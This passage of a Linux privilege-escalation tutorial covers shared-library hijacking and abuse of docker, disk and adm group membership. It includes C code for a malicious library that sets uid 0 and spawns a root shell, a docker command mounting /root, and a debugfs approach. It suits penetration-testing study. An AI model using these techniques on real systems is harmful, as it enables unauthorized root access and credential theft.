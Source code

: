         linux-vdso.so.1 (0x00007ffd22bbc000)
        libshared.so => /development/libshared.so (0x00007f0c13112000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f0c1330a000)


$ ./payroll 

        ./payroll: symbol lookup error: ./payroll: undefined symbol: dbquery
```

We can copy an existing library to the development folder. Running ldd against the binary lists the library's path as /development/libshared.so, which means that it is vulnerable. Executing the binary throws an error stating that it failed to find the function named dbquery. We can compile a shared object which includes this function.


```
        #include<stdio.h>
        #include<stdlib.h>

        void dbquery() {
            printf("Malicious library loaded\n");
            setuid(0);
            system("/bin/sh -p");
        } 
```


The dbquery function sets our user id to 0 (root) and executing /bin/sh when called. Compile it using GCC.


```$ gcc src.c -fPIC -shared -o /development/libshared.so```




# Privileged Groups


## Docker

Placing a user in the docker group is essentially equivalent to root level access to the file system without requiring a password. Members of the docker group can spawn new docker containers. One example would be running the command docker run -v /root:/mnt -it ubuntu. This command create a new Docker instance with the /root directory on the host file system mounted as a volume. Once the container is started we are able to browse to the mounted directory and retrieve or add SSH keys for the root user.


## Disk

Users within the disk group have full access to any devices contained within /dev, such as /dev/sda1, which is typically the main device used by the operating system. An attacker with these privileges can use debugfs to access the entire file system with root level privileges. As with the Docker group example, this could be leveraged to retrieve SSH keys, credentials or to add a user.


## ADM

Members of the adm group are able to read all logs stored in /var/log. This does not directly grant root access, but could be leveraged to gather sensitive data stored in log files or enumerate user actions and running cron jobs.



```